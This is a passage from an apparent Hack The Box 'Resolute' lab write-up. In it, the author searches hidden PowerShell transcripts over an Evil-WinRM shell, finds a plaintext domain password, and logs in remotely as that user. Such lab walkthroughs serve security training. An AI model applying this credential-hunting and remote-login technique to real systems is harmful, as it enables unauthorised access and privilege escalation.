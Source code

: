 ```csharp
*Evil-WinRM* PS C:\> ls -R -Hidden -EA SilentlyContinue | select-string ryan

PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:4:Username: MEGABANK\ryan
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:5:RunAs User: MEGABANK\ryan
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:29:PS>ParameterBinding(Out-String): name="InputObject"; value="PS megabank\ryan@RESOLUTE Documents> "
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:30:PS megabank\ryan@RESOLUTE Documents>
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:35:>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:43:Username: MEGABANK\ryan
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:44:RunAs User: MEGABANK\ryan
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:64:+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:70:+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:77:Username: MEGABANK\ryan
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:78:RunAs User: MEGABANK\ryan
```

It seems as if the user `ryan` used the `net use` command to connect to an external share, leaving his credentials `ryan:Serv3r4Admin4cc123!` in the Powershell transcripts! We can now try to login as `ryan` using `Evil-WinRM` since he is also a member of the `Remote Management Users` group.

```bash
zweilos@kalimaa:~/htb/resolute$ evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
```

### User \#2 - ryan

```text
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /all

USER INFORMATION
----------------

User Name     SID
============= ==============================================
megabank\ryan S-1-5-21-1392959593-3013219662-3596683436-1105


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
```